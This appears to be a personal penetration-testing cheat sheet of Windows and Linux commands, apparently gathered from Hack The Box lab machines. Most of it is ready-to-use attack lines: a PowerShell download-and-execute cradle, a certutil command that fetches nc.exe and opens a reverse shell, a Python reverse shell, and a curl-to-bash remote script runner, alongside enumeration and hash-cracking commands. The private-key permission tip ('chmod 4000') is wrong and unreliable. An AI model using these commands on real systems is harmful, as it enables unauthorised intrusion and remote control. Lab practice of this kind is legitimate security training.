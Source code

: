 # Windows

## Smb shares enumerate

`smbclient -L 10.10.10.134 -U " "%" " `

## Hidden streams

* List files with streams: `dir \R`
* Read a stream from command line: `more < FileName:StreamName`

## List services

`wmic service where started=true get name, startname`

## Powershell reverse

`IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')`

## Download nc and reverse shell

```
cmd.exe /C net use /D /Y * && cmd.exe /C certutil.exe -urlcache -split -f 'http://10.10.16.65/nc.exe' C:\Users\Public\nc.exe & C:\Users\Public\nc.exe 10.10.16.65 1234 -e powershell.exe
```

# Linux

## DNS zone transfer

`dig axfr @10.10.10.52 matis.htb`

## FTP download files 

`wget -r --no-passive ftp://10.10.10.106`

## Reverse shells

* socat file:\`tty\`,echo=0,raw udp-listen:4444
* `import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.16.28\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])`

## Get remote script and execute

`bash <(curl -s http://mywebsite.com/myscript.txt)`

## Find exclude specific words

`find / -type f -name "filename" 2>&1 | grep -v "Permission denied`

## Check capacity

`getcap -r / 2>/dev/null`

## ssh

### 使用 private key 登录

![AxtqoR.png](https://s2.ax1x.com/2019/04/16/AxtqoR.png)

修改 private key 权限，`chmod 4000`

## Tools

### John

#### 7z

```
/opt/john/run/7z2john.pl backup.7z > backup.hash
hashcat -m 11600 -a 0 -o backup.cracked backup.hash /usr/share/wordlists/rockyou.txt --force
```

### Nmap 

#### ldap

`nmap -p 389 --script ldap-search 10.10.10.119`

## network

### Test icmp

`tcpdump -i tun0 icmp`
